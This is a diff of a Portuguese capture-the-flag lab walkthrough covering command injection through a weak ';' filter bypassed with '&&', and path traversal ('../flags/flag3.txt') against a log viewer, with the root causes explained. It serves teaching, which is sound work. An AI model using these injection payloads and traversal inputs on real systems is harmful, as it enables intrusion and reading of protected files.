

Before and after one commit to msrlx0/ctf-labs, a Markdown page: lab-03-netaudit/WALKTHROUGH.md, the part around one of its changes. Shown at 84% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/lab-03-netaudit/WALKTHROUGH.md
+++ b/lab-03-netaudit/WALKTHROUGH.md
@@ -196,23 +201,59 @@ Voce deve notar pistas para um resolver legado e para `support.html`. Trate isso
 
 ## 7. Resolver legado e filtro fraco
 
-Monte manualmente no Burp Repeater uma requisicao para o resolver legado descoberto no JavaScript. Ele nao esta na UI.
+Monte manualmente no Burp Repeater uma nova requisicao para o resolver legado descoberto no JavaScript. Ele nao esta na UI e nao usa o mesmo body de `/api/assets/check`.
 
-Comece com entrada normal, depois teste se `;` e bloqueado. Em seguida, compare com um operador permitido, como `&&`, usando um comando inofensivo.
+Comece com a estrutura minima:
 
-Para capturar a segunda flag, use a falha com:
-
-```text
-localhost && cat /app/flags/flag2.txt
+```http
+POST /api/assets/resolve
+Content-Type: application/json
+Cookie: session=...
 ```
 
-A licao aqui e simples: bloquear apenas um caractere nao corrige command injection.
+```json
+{
+  "target": "localhost"
+}
+```
+
+Depois teste se `;` e bloqueado:
+
+```json
+{
+  "target": "localhost; whoami"
+}
+```
+
+Compare com um operador permitido, como `&&`, usando um comando inofensivo:
+
+```json
+{
+  "target": "localhost && id"
+}
+```
+
+Para capturar a segunda flag:
+
+```json
+{
+  "target": "localhost && cat /app/flags/flag2.txt"
+}
+```
+
+A etapa continua sendo Command Injection, mas o foco didatico muda para weak filtering/bypass: a aplicacao bloqueia apenas `;` e deixa `&&` passar.
 
 ## 8. Support diagnostics escondido
 
 A partir das pistas no HTML/JS, acesse `support.html`. Ela nao estava no menu principal.
 
-Use o campo `Log file` para abrir `app.log`. Leia o arquivo como log operacional e procure:
+Use o campo `Log file` para abrir `app.log`. Esse campo chama:
+
+```text
+/api/support/log?file=app.log
+```
+
+Leia o arquivo como log operacional e procure:
 
 - endpoint interno;
 - header esperado;
@@ -222,16 +263,24 @@ Use o campo `Log file` para abrir `app.log`. Leia o arquivo como log operacional
 
 ## 9. Path Traversal
 
-O visualizador aceita um nome de arquivo. Teste variacoes controladas e pense no caminho final que o backend pode estar montando.
+O campo `Log file` chama `/api/support/log?file=app.log`, o que sugere que o backend le arquivos a partir de um diretorio base, como `/app/data`. O proprio `app.log` diz que a evidencia foi movida para fora do data directory.
 
-Use traversal para ler:
+Ao usar:
+
+```text
+../flags/flag3.txt
+```
+
+o caminho efetivo fica como `/app/data/../flags/flag3.txt`, que resolve para `/app/flags/flag3.txt`.
+
+Use traversal para ler duas evidencias diferentes:
 
 ```text
 ../flags/flag3.txt
 ../flags/flag4.txt
 ```
 
-A causa raiz e aceitar entrada do usuario em `path.join` sem garantir que o caminho final permaneceu dentro do diretorio permitido.
+A causa raiz e aceitar entrada do usuario em `path.join` sem garantir que o caminho final permaneceu dentro do diretorio permitido. `flag3` e `flag4` sao duas evidencias diferentes obtidas pela mesma falha de path traversal.
 
 ## 10. Token interno e Broken Access Control
 
````
Also changed, not shown: other parts of lab-03-netaudit/WALKTHROUGH.md (+48 -5 lines), lab-03-netaudit/SOLUTION.md (+37 -4 lines).
